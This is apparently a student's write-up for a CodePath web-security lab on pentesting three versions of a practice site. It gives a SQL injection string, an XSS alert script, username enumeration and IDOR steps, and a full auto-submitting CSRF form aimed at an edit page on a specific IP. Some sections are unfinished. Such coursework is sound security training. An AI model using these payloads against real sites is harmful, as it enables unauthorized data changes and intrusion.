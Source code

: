 # Project 9 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

### Vulnerability #1: SQL Injection

Description: SQl Injection or SQLi is a type of cybersecurity attack that targets databases using specifically crafted SQL statements. The goal is to trick the system(s) into doing unexpected and undesired things. SQL Injection occurs when an application fails to sanitize untrusted data.

In CodePath's Unit 9 Concept Review section, they provided the SQL statement, _' OR 1=1 --'_. This may or may not have been a hint, but just substituting it for the value of _id_ in the blue site's "Find a Saleperson" tab does not work. I took my chances and modified _' OR 1=1 --'_ into _' OR 1=1 '_ and tried substituting it for the value of _id_ and it returns a "Database query failed."

<img src="sql_injection.gif">

### Vulnerability #2: __________________

Description:

<img src="blue-vuln2.gif">

## Green

### Vulnerability #1: Username Enumeration

Description:
Username Enumeration is the process of developing a list of all valid usernames on a server or web application and it becomes possible if the server or web application provides a clue as to whether or not the username exists.

When using CodePath's supplied username, "jmonroe99", which already exists, the green site displayed a login error in bold.
But when using a madeup username, "kevin123", which under the assumption that there is no username like this in the server, the green site displayed an unbolded login error.
Although both errors returns "Log in was unsuccessful.", the only visual difference was one was bold and the other was not.

Using the _inspect_ element, I analyzed both the bolded and unbolded login errors and it turns out there are two _span_ tag classes -- "failure", which results in the bolded login error and "failed", which results in an unbolded login error.

<img src="username_enumeration.gif">

### Vulnerability #2: Cross-Site Scripting

Description: Cross-Site Scripting (aka _XSS_) is when code puts user-supplied data in the response without sanitizing the data first.

CodePath gave the XSS script, _<script>alert('Mallory found the XSS!');</script>_ as an hint. The "Contact" page is a common ground for inputting some XSS scripts as users are free to post comments.

<img src="cross_site_scripting.gif">


## Red

### Vulnerability #1: Insecure Direct Object Reference

Description: Insecure Direct Object Reference is when code accesses a restricted resource based on user input but fails to verify user's authorization to access that resource.

Through changing the _id_ parameter on the red site's "Find a Saleperson" tab, it is explicitly shown that entering the ids from 1-9 shows the salespeople in the database that are unrestricted/publicized, but when entering ids of 10 and 11, it is clearly written in parenthesis that their information is not meant to be shown.

<img src="insecure_direct_object_reference.gif">

### Vulnerability #2: Cross-Site Request Forgery

Description: Cross-Site Request Forgery is an attack in which a user is tricked into performing actions on another site by inadvertently clicking on a link or submitting a form. It is not a genuine user request.

Used an auto-submitting script to steal the user's session and forge a requet to the database.

<img src="cross_site_request_forgery.gif">
Script Used:
```

<!DOCTYPE html>
<html>

<head>
  <title>FAKE Form</title>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
</head>

<body onload="document.getElementById('f').submit();">
  <form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=7" method="post" id="f" style="display: none;" target="hidden_results">
    <input type="text" name="first_name" value="GETHACKEDBOIII" />
    <input type="text" name="last_name" value="KARMA" />
    <input type="text" name="phone" value="911" />
    <input type="text" name="email" value="noemailforyou@gmail.com" />
  </form>
  <iframe name="hidden_results" style="display: none;"></iframe>
</body>

</html>

```


## Notes

Describe any challenges encountered while doing the work
